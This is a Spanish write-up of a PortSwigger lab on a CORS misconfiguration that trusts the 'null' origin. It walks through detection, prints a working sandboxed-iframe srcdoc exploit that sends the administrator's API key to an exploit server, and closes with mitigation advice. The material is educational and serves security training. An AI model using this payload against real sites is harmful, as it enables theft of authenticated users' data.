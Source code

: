 # Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/91903113-dba9-47f7-946f-b978688cbf98)

Sabemos que el laboratorio tiene una configuración CORS insegura que confía en origin null, tenemos que crear un script que nos devuelva la API key del administrador, por lo que tenemos que encontrar un endpoint que nos devuelva nuestra API key.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/f627e5ec-a806-4a02-b465-9dad19c47a77)

Dashboard del usuario:
![image](https://github.com/user-attachments/assets/36df1afa-6c74-4564-9b8e-53d8dbcecfd7)

Endpoint `/accountDetails`:
![image](https://github.com/user-attachments/assets/b2f8f53b-f33b-4c18-a1a2-ccd00dc6370a)

Hasta ahora este laboratorio es muy similar al anterior, este último endpoint nos devuelve un montón de información sensible relativa al usuario, incluyendo su API key.

El servidor nos devuelve la cabecera `Access-Control-Allow-Credentials: true`, por lo que sabemos que está haciendo uso del protocolo `CORS`. Enviamos esta petición al `Repeater`:
![image](https://github.com/user-attachments/assets/dad8d53b-62f8-4f7e-993a-4ab78cd18049)


Por lo que procedemos a testear la configuración del protocolo para validar si hay vulnerabilidad.

Inyectamos el header `Origin` para validar si el servidor acepta orígenes arbitrarios:
![image](https://github.com/user-attachments/assets/2efabe9f-16d0-40e6-ae12-e94228aed593)

No nos refleja el header por lo que en este laboratorio el servidor no acepta orígenes arbitrarios.

Procedemos a testear si el servidor acepta la cabecera con el valor `Origin: null`:
![image](https://github.com/user-attachments/assets/7b84f93f-c845-49ac-b50f-2c6813ce560f)

Recibimos la cabecera `Access-Control-Allow-Origin: null` como respuesta del servidor.

El servidor está aceptando específicamente el origen null, lo cual podría permitir a un atacante robar datos sensibles desde un origen sin dominio definido.

Este es el caso ideal para explotar usando el `iframe` con `data: URI` que analizamos antes en la teoría:
```html
<html>
  <body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
      <script>
        var req = new XMLHttpRequest();
        req.onload = function() {
          location='https://exploit-0a95009f0337aa9e807d02b401d9008e.exploit-server.net/exploit/log?key=' + encodeURIComponent(this.responseText);
        };
        req.open('GET', 'https://0ae000f70321aaea801903e8001e00fd.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;
        req.send();
      </script>
    ">
    </iframe>
  </body>
</html>
```

## 🔧 Análisis del exploit CORS usando `<iframe srcdoc>`

Este exploit está diseñado para aprovechar una configuración vulnerable de CORS que acepta `Origin: null` y permite credenciales. Utiliza un iframe con `sandbox` y `srcdoc` para ejecutar un script desde un origen no confiable.


---

### 🔎 Desglose del funcionamiento

#### 1. `<iframe ...>`

Se crea un iframe aislado del documento principal, pero con permisos limitados especificados por `sandbox`.

#### 2. `sandbox="allow-scripts allow-top-navigation allow-forms"`

Permite:

* `allow-scripts`: ejecutar código JavaScript dentro del iframe.
* `allow-top-navigation`: redireccionar la página superior mediante `location=`.
* `allow-forms`: enviar formularios (aunque no es esencial para este exploit).

El sandbox impide que el iframe herede el origen del documento principal, por lo que el `Origin` de las solicitudes realizadas será `null`.

#### 3. `srcdoc="..."`

* Incrusta directamente contenido HTML dentro del iframe (una mini página con su propio DOM).
* Es más confiable que `src="data:text/html,..."` y mantiene el `Origin: null`.

#### 4. Script embebido

* Realiza una solicitud con `XMLHttpRequest` al endpoint vulnerable (`/accountDetails`).
* Usa `withCredentials = true` para incluir cookies del usuario autenticado.
* Al recibir la respuesta (la API key del administrador), redirecciona el navegador hacia el exploit server, incluyendo los datos robados como parámetro.

```javascript
location='https://exploit-server/log?key=' + encodeURIComponent(this.responseText);
```

---

### ⚠️ Condiciones necesarias para que funcione

* El servidor vulnerable debe aceptar:

  ```http
  Access-Control-Allow-Origin: null
  Access-Control-Allow-Credentials: true
  ```
* El navegador debe permitir iframes con `srcdoc` (lo hacen todos los modernos).
* El exploit debe ejecutarse desde un origen externo (como el exploit server de PortSwigger).

---

Simulamos levantar el servidor con nuestra página maliciosa haciendo click en `Go te exploit server` y pegando nuestro script en el campo `Body`. Luego hacemos click en `Deliver exploit to victim` para simular que la víctima accede a nuestro servidor y su navegador ejecuta el script:
![image](https://github.com/user-attachments/assets/c3a69524-42a6-440d-9282-979749f56828)


Accedemos a nuestros logs mediante el botón `Access log`:
![image](https://github.com/user-attachments/assets/4c19243c-303f-4f4f-b204-cc2b07b952c6)

Obtenemos la API key del usuario `administrator`:
```http
JUxIIWqGOQxTgD7euX8KWwilYehFwZkT
```

Procedemos a cargar la API key y resolver el laboratorio:
![image](https://github.com/user-attachments/assets/1195f74d-e44b-4ffe-b54e-aae0fe468ced)

---

## ✅ Conclusiones

Este laboratorio expone cómo una configuración insegura de CORS que acepta el origen especial `null` puede ser explotada para robar información sensible de usuarios autenticados.  
El uso de un `iframe` con `srcdoc` permite generar solicitudes con `Origin: null`, y si el servidor responde con `Access-Control-Allow-Origin: null` y `Access-Control-Allow-Credentials: true`, el navegador entrega las cookies de sesión del usuario al atacante.

---

## 🛡️ Recomendaciones

Para mitigar este tipo de vulnerabilidades:

- **Nunca permitir `Access-Control-Allow-Origin: null`** a menos que haya una necesidad muy específica y segura.
- Validar explícitamente el origen en el backend usando una lista blanca de orígenes confiables.
- Evitar el uso de `Access-Control-Allow-Credentials: true` si no es estrictamente necesario.
- Aplicar políticas de seguridad en el navegador como `SameSite` en cookies y `Content-Security-Policy` restrictiva.

---

## 📚 Lecciones aprendidas

- El origen `null` no representa un dominio arbitrario, sino que se genera en contextos como `srcdoc`, `file://`, `data:`, o `sandbox` sin `allow-same-origin`.
- Los ataques CORS no dependen de vulnerabilidades del frontend, sino de **configuraciones inseguras en el backend**.
- El uso de técnicas como `iframe + sandbox + srcdoc` permite ejecutar scripts desde orígenes no confiables de forma completamente funcional en navegadores modernos.
- Las pruebas de CORS deben incluir escenarios menos obvios como `Origin: null`, no solo reflejo directo de orígenes arbitrarios.

---


